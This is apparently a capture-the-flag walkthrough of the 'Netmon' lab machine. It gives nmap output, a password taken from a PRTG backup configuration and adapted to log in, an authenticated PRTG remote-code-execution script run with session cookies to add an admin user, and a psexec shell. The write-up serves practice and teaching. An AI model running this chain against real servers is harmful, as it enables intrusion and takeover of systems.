 > nmap -sC -sV -A 10.10.10.152
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_10-26-23  04:37AM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows


/ProgramData/Paessler/PRTG Network Monitor
->PRTG Configuration.old.bak
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>

able to login using prtgadmin:PrTg@dmin2019 (based on the date of PRTG Configuration.old)

found the the system that been using are PRTG Network Monitor 18.2.38
-> https://www.exploit-db.com/exploits/46527 (PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution)

make ./netmon-exploit.sh script then execute (based on the cve documentation)
-> ./netmon-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1968957364.1698310034; _gid=GA1.4.2021176661.1698310034; OCTOPUS1813713946=ezMxMDJBRDY4LTg0MTgtNDIzRi05RDU1LTE5MkE1RjE4QTg3Q30%3D"
The cookies that been used (_ga, _gid, and OCTOPUS1813713946) found using cookie-editor extension on firefox or can also use inspect element on the browser

The script will make a new user with credentials -> pentest:P3nT3st!

After the new user successfuly created, using impacket, execute
> python3 psexec.py pentest@10.10.10.152